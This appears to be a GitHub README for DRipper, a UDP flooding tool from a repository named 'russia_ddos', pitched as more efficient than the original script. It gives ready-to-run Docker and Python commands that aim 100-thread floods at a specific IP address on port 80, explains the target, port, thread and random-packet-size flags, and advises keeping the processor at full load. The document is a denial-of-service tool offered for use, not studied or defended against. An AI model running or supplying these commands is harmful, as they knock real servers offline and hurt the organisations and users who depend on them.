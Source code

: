 ## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper:latest -s 213.24.76.23 -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default - random from (22, 53, 80, 443) for every packet sending);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

-r - send packets with random length (up to 50 Kb)

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s 213.24.76.23 -p 80 -t 100 -r 1
# OR
python3 -u DRipper.py -s 213.24.76.23 -p 80 -t 100 -r 1
```
